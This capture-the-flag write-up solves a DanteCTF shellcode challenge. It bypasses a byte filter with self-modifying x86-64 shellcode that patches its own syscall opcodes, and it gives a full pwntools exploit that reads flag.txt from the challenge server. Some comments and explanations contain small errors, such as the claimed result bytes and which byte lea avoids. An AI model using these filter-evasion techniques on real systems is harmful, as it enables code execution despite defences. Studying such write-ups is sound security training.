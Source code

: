 The idea in this challenge is simple:
![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/e39f705f-300d-45fd-ac86-2469ef431e36)

We give the program a shellcode, and if it bypasses a filter it will run it.

![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/5d552787-bd1a-4feb-b1e7-88c42192e74e)

![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/fac8b584-c84e-4ab3-8639-f3a7569e8967)

the filter basiclly disallows any shellcode which contains the bytes 0xcd,0x80,0xf,0x5,0x89 and 0.
The program also disallows and syscalls besides those:
![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/509673a1-f611-42d6-9e5e-12e039b8f832)

So we can't just pop a shell, we'll need to make a shellcode which does open-read-write to the flag.
First of all, lets ignore the filter. I let pwntools to create my open-read-write shellcode, and it created this:
```asm
   0:   6a 01                   push   0x1
   2:   fe 0c 24                dec    BYTE PTR [rsp]
   5:   48 b8 66 6c 61 67 2e 74 78 74   movabs rax, 0x7478742e67616c66
   f:   50                      push   rax
  10:   48 8d 3c 24             mov    rdi, rsp
  14:   31 d2                   xor    edx, edx
  16:   31 f6                   xor    esi, esi
  18:   6a 02                   push   0x2
  1a:   58                      pop    rax
  1b:   0f 05                   syscall 
  1d:   48 89 c7                mov    rdi, rax
  20:   31 c0                   xor    eax, eax
  22:   6a 50                   push   0x50
  24:   5a                      pop    rdx
  25:   48 89 e6                mov    rsi, rsp
  28:   0f 05                   syscall 
  2a:   6a 01                   push   0x1
  2c:   5f                      pop    rdi
  2d:   48 89 c2                mov    rdx, rax
  30:   48 89 e6                mov    rsi, rsp
  33:   6a 01                   push   0x1
  35:   58                      pop    rax
  36:   0f 05                   syscall

```

we can see that there are just a few instruction which are forbidden:
```
mov    rdi, rsp
mov    rdi, rax
mov    rdx, rax
syscall
```
now we'll have to find a way to do their functionillty differently.
all the `mov x, y` cmds, can be just changed to `lea x, [y]`, which does the exact same thing and removes the 0x48 forbidden byte.
now we just need to thing about the syscall instruction. BUT, the only way to communicate with the os, is with this instruction, and there are not other ways to do a syscall.
So what can we do?
Well, thats when Self Modifing Shellcode comes into play.
the invalid opcodes is 0f 05, right?
BUT, the shellcode is on the stack! its just a constant offset from our friend RSP.
So we can just enter 0x0e and 0x4 as our opcode, and one instruction before them we can do `inc [rsp+offset]; inc [rsp+offset+1]`!
which will modify to the right instruction right before it gets called!
Exploit:

```py
from pwn import *
from ae64 import AE64


context.arch='amd64'

p = remote('challs.dantectf.it',31532)
p.recvline()


shellcode = """
    /* open(file='flag.txt', oflag=0, mode=0) */
    /* push b'flag.txt\x00' */
    push 1
    dec byte ptr [rsp]
    mov rax, 0x7478742e67616c66
    push rax
    lea rdi, [rsp]
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call open() */
    push SYS_open /* 2 */
    pop rax
    syscall
    /* call read('rax', 'rsp', 0x50) */
    mov rdi, rax
    xor eax, eax /* SYS_read */
    push 0x50
    pop rdx
    mov rsi, rsp
    syscall
    /* write(fd=1, buf='rsp', n='rax') */
    push 1
    pop rdi
    mov rdx, rax
    mov rsi, rsp
    /* call write() */
    push SYS_write /* 1 */
    pop rax
    syscall

"""

shell = b'\x6a\x01\xfe\x0c\x24\x48\xb8\x66\x6c\x61\x67\x2e\x74\x78\x74\x50'
shell += b'\x48\x8d\x3c\x24' # lea rdi, [rsp]
shell += b'\x31\xd2\x31\xf6\x6a\x02\x58'

shell += b'\x48\xff\x44\x24\x3d' #inc qword ptr[rsp+3d];
shell += b'\x48\xff\x44\x24\x3e' #inc qword ptr[rsp+3e];
shell += b'\x0e\x04' #it will be changed to \x0e\x05 which is syscall

shell += b'\x48\x8d\x38' # lea rdi, [rax]
shell += b'\x31\xc0'
shell += b'\x6a\x50'
shell += b'\x5a'
shell += b'\x48\x8d\x34\x24' # lea rsi, [rsp]

shell += b'\x48\xff\x44\x24\x55' #inc qword ptr[rsp+55];
shell += b'\x48\xff\x44\x24\x56' #inc qword ptr[rsp+56];
shell += b'\x0e\x04' #it will be changed to \x0e\x05 which is syscall

shell += b'\x6a\x01\x5f'
shell += b'\x48\x8d\x10'

shell += b'\x48\x8d\x34\x24'
shell += b'\x6a\x01\x58'

shell += b'\x48\xff\x44\x24\x6e' #inc qword ptr[rsp+6e];
shell += b'\x48\xff\x44\x24\x6f' #inc qword ptr[rsp+6f];
shell += b'\x0e\x04' #it will be changed to \x0e\x05 which is syscall


p.sendline(shell)
p.interactive()
```

